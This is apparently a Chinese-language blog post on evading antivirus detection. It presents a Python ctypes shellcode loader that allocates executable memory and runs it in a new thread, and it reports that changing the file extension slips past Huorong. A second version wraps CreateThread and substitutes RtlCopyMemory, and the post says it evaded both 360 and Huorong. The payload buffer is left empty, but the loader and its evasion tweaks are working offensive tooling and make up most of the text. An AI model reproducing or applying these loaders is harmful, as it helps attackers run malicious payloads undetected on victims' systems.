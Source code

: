 



比如下面这个Python代码

```Python
import ctypes

def exec_shellcode(shellcode):
    shellcode = bytearray(shellcode)
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)),ctypes.c_int(0x3000),ctypes.c_int(0x40))
    buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(ptr),buf,ctypes.c_int(len(shellcode)))
    handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0), ctypes.c_int(0),ctypes.c_uint64(ptr),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))
def main():
    buf =  b""
    shellcode = buf
    exec_shellcode(shellcode)
if __name__ == '__main__':
    main()
```





这些检查都是基于主动让他扫描检测的

# 绕过后缀名

用火绒的话一开始是可以检测出他是一个恶意脚本,后来不知道怎么就检测不出来了

不过修改文件后缀名是可以绕过火绒的



但是无论怎么修改后缀名都无法绕过360

![image-20230723231941978](img/image-20230723231941978.png)

# 函数封装+函数替换



```python

import ctypes

def  yy(a,b,c,d,e,f):#函数封装
    ret_value=ctypes.windll.kernel32.CreateThread(a,b,c,d,e,f)
    return ret_value

def exec_scode(scode):
    scode = bytearray(scode)
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(scode)),ctypes.c_int(0x3000),ctypes.c_int(0x40))
    buf = (ctypes.c_char * len(scode)).from_buffer(scode)
    ctypes.windll.kernel32.RtlCopyMemory(ctypes.c_uint64(ptr),buf,ctypes.c_int(len(scode)))#函数替换
    handle = yy(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_uint64(ptr),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))

def main():
    buf =  b""
    scode = buf
    exec_scode(scode)
if __name__ == '__main__':
    main()
```



竟然绕过了360+火绒

![image-20230723233538314](img/image-20230723233538314.png)